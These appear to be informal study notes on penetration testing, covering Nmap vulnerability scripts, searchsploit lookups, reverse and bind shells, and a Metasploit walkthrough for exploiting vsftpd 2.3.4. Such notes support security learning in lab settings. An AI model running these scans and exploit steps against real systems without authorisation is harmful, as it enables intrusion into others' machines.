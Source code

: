 **UDP (User Datagram protocol)**

- speed and error correction is not need

- steaming video and gaming

## Vulnerability Analysis
**Finding first vulnerability with Nmap scripts**:
nmap scripts: detect server vulnerability, brute force attacks, detect malware, collect information

usr/share/nmap/scripts
NMAP scripts categories : auth, speed, brute, default, broadcast, malware, vuln, banner, etc...

-F = 100 ports

> nmap --scripts categories/scripts_name IP

> sudo nmap  --scripts malware IP -sS -F

to login ftp port > ftp 192.x.x.x

**manual search for vulnerability analysis:**
- by searching the VERSION on google (mostly use)
> searchsploit VERSION-name (just copy and paste)

> locate path-name

> cd path-name(copy and paste)

## Exploitation and Gaining Excess
Shell = Payload - execute command and connect to target machine

reverse shell - connection to Kali Linux from listening to incoming connection target machine

binds shell - connection through opened ports of target machine. Useless as there is Firewall.

Firewall prevent target machine from opening ports.

### msfconsole

->nmap -sV  = scan version

->searchsploit version_name => searchsploit vsftpd 2.3.4

msf5 -> seach vsftpd

msf5 -> use exploit /unix/ftp/exploit_name

msf5 -> show info (for more info about the exploit)

msf5 -> show options (set up things, RHOSTS, etc)

msf5 -> set RHOSTS 192.168.x.x

msf5 -> show payloads

msf5 -> show targets

msf5 -> exploit
